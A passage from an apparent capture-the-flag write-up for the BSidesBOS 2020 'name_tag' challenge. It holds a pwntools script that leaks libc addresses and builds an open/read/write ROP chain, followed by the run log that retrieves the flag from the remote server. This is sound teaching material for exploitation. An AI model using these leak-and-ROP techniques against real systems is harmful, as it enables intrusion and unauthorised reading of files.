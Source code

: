 ```python  
io.recvuntil("Bio: ")  
leaks = io.clean()[:-1].split(b"\n")  
if len(leaks) < 3:  
   return  
puts_addr = int.from_bytes(leaks[-2], "little")  
malloc_addr = int.from_bytes(leaks[-1], "little")  
libc.address = puts_addr-libc.symbols['puts']

# Write flag file name to flag_addr  
io.sendline("./flag.txt")

# Do the open/read/write ROP, ensuring to include libc in the ROP instance so  
# it can find the right address.  
r = ROP([exe, libc])  
r.raw(1) #  r13-15 (for the rsp gadget used to pivot stack)  
r.raw(2) #  r13-15  
r.raw(3) #  r13-15  
r.open(flag_addr, 0) # open with read permission  
if args.LOCAL: # file descriptors experimentally chosen until it worked  
   r.read(3, heap, 0xff)  
else:  
   r.read(6, heap, 0xff)  
r.write(1, heap, 0xff) # write to stdout  
io.sendline(r.chain())

# Retrieve the flag from stdout, getting rid of excess 0s printed.  
dat = io.recv().replace(b"\x00", b"").decode()  
if len(dat) > 0:  
   print(dat)  
```

Running this against the real server...

```  
$ ./exploit.py REMOTE  
[*] '/home/kali/gh-ctf/bsidesbos-2020/name_tag/name_tag-traceable'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[*] '/home/kali/gh-ctf/bsidesbos-2020/name_tag/libc-2.32-x86_64.so'  
   Arch:     amd64-64-little  
   RELRO:    Full RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[+] Opening connection to challenge.ctf.games on port 32181: Done  
[*] Loaded 15 cached gadgets for 'name_tag-traceable'  
[*] -> cookie: 0x28e854e5072aa00  
[*] libc: 0x7f17406d1000  
[*] Loaded 187 cached gadgets for './libc-2.32-x86_64.so'  
flag{not_your_typical_overflow}  
```

